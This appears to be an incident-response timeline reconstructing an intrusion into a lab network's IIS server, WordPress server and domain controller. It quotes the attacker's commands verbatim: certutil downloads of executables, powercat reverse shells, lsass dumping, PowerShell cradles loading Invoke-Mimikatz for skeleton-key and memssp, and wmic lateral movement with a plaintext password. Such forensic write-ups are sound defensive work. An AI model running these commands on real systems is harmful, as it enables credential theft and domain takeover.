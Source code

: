 # windows ISS server
* 2020/8/4 AM 08:42:33 CVE-2020-0688 (awaiting to determinate)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```
* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM```

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\```

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88```

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165```

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx```


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco```

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```


* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe```

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz```

# ubuntu wordpress web server
* 03/Aug/2020:09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131```

* 04/Aug/2020:08:49:26, start to ```sqlmap``` by ```10.20.2.227```

* 04/Aug/2020:09:16:31, tunnel (npv) start

* 04/Aug/2020:09:42:07, use tunnel scan internet

* 04/Aug/2020:09:45:56, login wordpress with admin account by ```10.20.2.165```

* 04/Aug/2020:10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell

* 04/Aug/2020:22:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean

* 04/Aug/2020:23:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell

* 04/Aug/2020:23:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell

# windows dc server
* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/05:22:25:34, exec ipconfig.exe by ```TEAMT5\Administrator```

# how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack then create webshell

* windows dc server : in IIS server dump IIS server's lssas.exe and use Minikatz to get dc's admin 's account and password

# Horizon move
* ubuntu -> IIS : bt.ext and nt.exe

* IIS -> dc : create process ipconfig.exe